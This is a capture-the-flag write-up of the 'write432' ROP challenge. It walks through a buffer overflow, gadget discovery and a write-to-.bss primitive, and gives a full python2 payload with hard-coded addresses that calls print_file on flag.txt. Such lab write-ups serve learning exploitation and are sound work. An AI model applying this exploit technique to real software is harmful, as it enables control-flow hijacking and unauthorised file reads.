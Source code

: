 ## Write-up:
![[Pasted image 20231217171946.png]]
`NX` bit is set and no `PIE`.
Opening the `write432` binary and its companion shared library up in Ghidra, reveals that `main` calls `pwnme`, which has a buffer overflow vulnerability. 
![[Pasted image 20231217172856.png]]
In the shared library there is also a useful function called `print_file`. 
![[Pasted image 20231217172827.png]]
This function takes a pointer to a string, which is the name of the file to read and print. I will aim to use this to print the contents of the `flag.txt` file.
Unfortunately, the string "flag.txt" doesn't exist anywhere within the binary or shared library, so I will need to write this string to memory somewhere, then pass a reference to it to `print_file()`.
To do this I will need to use a ROP gadget to construct a write to memory primitive.
![[Pasted image 20231217173301.png]]
The highlighted gadget in the above picture looks useful, but to use this I will also need to find a way to move my write address into `edi` and my string into `ebp`.
![[Pasted image 20231217173552.png]]
Luckily, there is another useful ROP gadget within the binary which `pop`s two values from the stack and places them in the `edi` and `ebp` registers.
I should be able to chain these two ROP gadgets together to create my write to memory primitive.
Since I am working with 32-bit registers, and my filename is 8 bytes long, I will need to do the write in two parts.
For my write location, I will use the beginning of the `.bss` section, which is usually used for storing uninitialized variables, as writing to this section during runtime is a normal thing for a program to do.
![[Pasted image 20231217175135.png]]
Lastly, to begin building my exploit payload, I need to find the offset of the return address from the overflowed buffer's start address.
![[Pasted image 20231217174248.png]]
As shown in the above screenshot, the offset to the `EIP` register, which stores the return address, is 44 bytes.
Putting this all together, my exploit will roughly look like:
```
44 bytes of junk

addr of pop ROP gadget # 0x080485aa
addr of .bss section # 0x0804a020
"flag"
addr of mov gadget # 0x08048543

addr of pop ROP gadget
addr of .bss section + 4 bytes
".txt"
addr of mov gagdet

addr of pop ROP gadget
addr of .bss section + 8 bytes
"\x00" * 4 # null bytes to signal string termination
addr of mov gagdet

addr of print_file function # 0x080483d0
dummy return addr # 0x00000000
addr of .bss section
```
Exploit:
```bash
python2 -c 'print \
"\x00"*44 + \
"\xaa\x85\x04\x08" + \
"\x20\xa0\x04\x08" + \
"flag" + \
"\x43\x85\x04\x08" + \
"\xaa\x85\x04\x08" + \
"\x24\xa0\x04\x08" + \
".txt" + \
"\x43\x85\x04\x08" + \
"\xaa\x85\x04\x08" + \
"\x28\xa0\x04\x08" + \
"\x00\x00\x00\x00" + \
"\x43\x85\x04\x08" + \
"\xd0\x83\x04\x08" + \
"\x00\x00\x00\x00" + \
"\x20\xa0\x04\x08" \
' > payload.txt
```
Calling `write432` using this payload gives the following output:
![[Pasted image 20231217221422.png]]
As shown in the image, the exploit was successful using this payload and the flag was printed.
This was achieved by crating a write primitive by chaining ROP gadgets together, and using this to create a string representing the flag filename and then passing this to the `print_file` function., causing the contents of the flag to be printed.